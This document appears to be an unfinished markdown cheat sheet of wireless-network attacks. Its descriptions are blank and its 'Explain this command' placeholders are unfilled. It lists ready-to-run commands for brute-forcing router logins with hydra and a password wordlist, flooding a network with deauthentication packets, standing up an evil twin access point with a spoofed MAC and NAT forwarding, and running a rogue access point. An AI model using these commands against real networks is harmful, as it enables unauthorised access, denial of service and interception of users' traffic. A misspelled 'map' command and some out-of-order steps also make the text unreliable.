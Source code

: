 ## Cracking Default Accounts on the Access Points
*Description:*

map -p 80 --script http-default-accounts [router IP]
hydra -l admin -P /usr/share/wordlists/rockyou.txt [router IP] http-get /

## Deauthentication DoS Attack
*Description:*

```bash
airmon-ng start wlan0  # [Explain this command]
airodump-ng mon0  # [Explain this command]
aireplay-ng --deauth 1000 -a [target AP MAC] mon0  # [Explain this command]

```
## Evil Twin with MAC Spoofing
*Description:*

```bash
airmon-ng start wlan0  # [Explain this command]
airodump-ng mon0  # [Explain this command]
macchanger --mac [spoofed MAC] wlan0
airbase-ng -e [ESSID] -c [channel] -a [spoofed MAC] mon0  # [Explain this command]
ifconfig at0 up  # [Explain this command]
dhcpd at0  # [Explain this command]
ifconfig at0 192.168.10.1 netmask 255.255.255.0  # [Explain this command]
iptables --flush  # [Explain this command]
iptables --table nat --flush  # [Explain this command]
iptables --delete-chain  # [Explain this command]
iptables --table nat --delete-chain  # [Explain this command]
iptables -P FORWARD ACCEPT  # [Explain this command]
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE  # [Explain this command]
echo 1 > /proc/sys/net/ipv4/ip_forward  # [Explain this command]

```
## Rogue Access Point
*Description:*

```bash
airmon-ng start wlan0  # [Explain this command]
airbase-ng -e RogueAP -c [channel] mon0  # [Explain this command]
ifconfig at0 up  # [Explain this command]
dhclient at0
```